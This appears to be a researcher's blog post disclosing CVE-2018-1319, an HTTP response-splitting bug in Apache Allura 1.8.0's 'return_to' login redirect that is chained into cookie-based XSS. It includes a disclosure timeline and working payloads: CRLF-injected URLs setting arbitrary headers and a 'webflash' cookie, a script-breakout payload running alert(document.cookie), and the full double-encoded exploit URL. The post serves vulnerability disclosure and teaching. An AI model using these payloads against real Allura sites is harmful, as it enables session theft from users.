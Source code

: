 ```yaml
---
title: "XSS via HTTP response splitting in Apache Allura 1.8.0 (CVE-2018-1319)"
layout: post
description: Exploiting an HTTP response splitting to get cookie-based XSS.
date: 2020-02-09
permalink: /2020/02/09/xss-via-http-response-splitting-in-apache-allura-1.8.0/
img: /assets/posts/2020/02/10/allura.png
imgcredit: ""
---
```

Timeline:
- 25 Feb 2018: Contacted vendor, CVE ID requested
- 15 Mar 2018: <a target="_blank" href="https://nvd.nist.gov/vuln/detail/CVE-2018-1319">CVE-2018-1319</a> assigned
- 09 Feb 2020: This post is published

<br>
<hr>
<br>
## Introduction
While looking for Bitbucket alternatives, I came across the Apache Allura project. Their <a href="https://allura.apache.org/" target="_blank">official documentation</a> describes it as:

> an open source implementation of a software forge, a web site that manages source code repositories, bug reports, discussions, wiki pages, blogs, and more for any number of individual projects.

Getting Allura up and running was easy since the project is <a href="https://forge-allura.apache.org/docs/getting_started/installation.html" target="_blank">very well documented</a>. This allowed me to quickly try things with their code. Running ZAP against my local instance took no time, and it reported that it was able to split HTTP responses by using `%0D%0A` in the HTTP GET parameter `return_to`, in the authentication redirection URL `/auth/?return_to=/`. Typically, this "return to" functionality is used to redirect unauthenticated users to a particular resource once they authenticate. So when attempting to access a protected resource without a valid session, Allura will:

1. Realize that the user is not authenticated
2. Take the user to the login page while using the `return_to` parameter to
   remember what URL was requested first
3. If the user authenticates successfully, Allura redirects the browser to
   whatever `return_to` pointed to, by using the `Location` header

<br>
<hr>
<br>
## Exploiting
To get an arbitrary header back from Allura 1.8.0 you must:
1. Create a crafted URL such as `/auth/?return_to=/%0D%0AFoo:%20Bar`
2. Visit such URL
3. Successfully log in
<br>

When dealing with HTTP response splitting, an easy way to argument why this should be addressed is the fact that attackers could redirect victims to a phishing website by using the ``Location`` header. In this hypothetical case, the crafted URL would look like this:
<br>

`/auth/?return_to=/%0D%0ALocation:%20https://example.com`
<br>

However, the normal functionality of Allura 1.8.0 is to already construct a legitimate `Location` header, so injecting a new one will result in the HTTP response having two of them, and modern web browsers will refuse to process such responses.
<br>

Another attack vector, which led to the creation of <a target="_blank" href="https://nvd.nist.gov/vuln/detail/CVE-2018-1319">CVE-2018-1319</a>, is to find vulnerabilities in the code that handles data coming from the HTTP headers, such as cookie-handling code. To set an arbitrary cookie, the URL would look like this:

`/auth/?return_to=/%0D%0ASet-Cookie:%20Foo%3DBar`
<br>

Allura uses the <a href="https://pypi.org/project/WebFlash/#history">WebFlash</a> component to display feedback messages whenever certain actions are performed by an authenticated user (e.g. in the pages under `/auth/user_info/contacts/`). These messages are communicated to the front-end via the `webflash` cookie. For example, editing your profile will set the following cookie:

{% highlight bash %}
webflash=%7B
  %22status%22%3A%20%22ok%22%2C%20
  %22message%22%3A%20%22Your%20personal%20data%20was%20successfully%20updated%21%22
%7D;
{% endhighlight %}

Whose URL-decoded value is:
{% highlight javascript %}
webflash={
  "status": "ok",
  "message": "Your personal data was successfully updated!"
};
{% endhighlight %}

Which generates the following HTML code:
{% highlight html %}
<script type="text/javascript">
  $('#messages').notify('Your personal data was successfully updated!', {
    status: 'ok'
  });
</script>
{% endhighlight %}

And shows the following flash message in the front-end:
<br>
<center>
<img width="66%" height="66%" src="/assets/posts/2020/02/10/webflash.png" />
</center>

This means that whatever is in the `webflash` cookie will be picked up by the code generating these messages. To trigger XSS here, the paylaod for the cookie would look like this:
{% highlight bash %}
{"status":"a'})</script><script>alert(document.cookie)//","message":"xss"}
{% endhighlight %}

Notice how the `status` attribute contains the JavaScript payload up to `//`. This will make the computed HTML page looke like this:
{% highlight html %}
<script type="text/javascript">
  $('#messages').notify('xss', {
    status: 'a'
  })
</script>
<script>
  alert(document.cookie)//'});
</script>
{% endhighlight %}

Assembling everything together, the crafted URL would contain the URL-encoded payload (twice), and would look like this:
{% highlight bash %}
/auth/?return_to=/auth/user_info/contacts/%0D%0A
  Set-Cookie:%20webflash%3D%257B
    %2522status%2522%253A%2522a%2527%257D)
    %253C%252Fscript%253E%253Cscript%253Ealert(document.cookie)
    %252F%252F%2522%252C%2522message%2522%253A%2522xss%2522%257D
{% endhighlight %}

PoC:
<br>
<center>
<img src="/assets/posts/2020/02/10/allura_xss.gif" />
</center>
